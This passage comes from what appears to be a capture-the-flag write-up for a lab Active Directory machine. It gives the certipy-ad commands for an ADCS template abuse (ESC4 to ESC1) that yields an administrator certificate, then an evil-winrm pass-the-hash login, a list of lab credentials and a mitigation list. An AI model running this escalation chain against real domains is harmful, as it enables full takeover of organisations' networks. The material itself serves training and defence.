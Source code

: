 ![image.png](image%2024.png)

```bash
certipy-ad find -vulnerable -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.10.11.51 -stdout
```

![image.png](image%2025.png)

```bash
certipy-ad template -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -target dc01.sequel.htb -save-old
```

![image.png](image%2026.png)

```bash
certipy-ad req -ca sequel-DC01-CA -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -target dc01.sequel.htb -upn administrator@sequel.htb
```

![image.png](image%2027.png)

```bash
certipy-ad auth -pfx administrator.pfx
```

![image.png](image%2028.png)

```bash
evil-winrm -i $IP -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
```

![image.png](image%2029.png)

## Credentials

```bash
rose : KxEPkKe6R8su
oscar : 86LxLBMgEWaKUnBG
sa : MSSQLP@ssw0rd!
sql_svc : WqSZAF6CysDQbGb3
ryan : WqSZAF6CysDQbGb3
ca_svc : Password1234
```

## Mitigation

- **Limit SMB share exposure** and enforce strict access controls on sensitive internal documents.
- Implement **Account Lockout Policies** to defend against **password spraying attacks**.
- Audit **MSSQL configuration**, avoid overprivileged accounts, and restrict linked credentials in databases.
- Monitor for and restrict **WinRM usage**, especially across low-privileged users.
- Review **Active Directory ACLs** for excessive privileges like `WriteOwner`, which can lead to privilege escalation.
- Regularly audit and harden **ADCS templates**; disable vulnerable ones or apply the [ESC1](https://github.com/GhostPack/Certify/wiki/Active-Directory-Certificate-Services-Attack-Chain-Overview#ESC1) and ESC4 fix recommendations from Microsoft.
- Enforce **least privilege** across user accounts and certificate enrollment permissions.
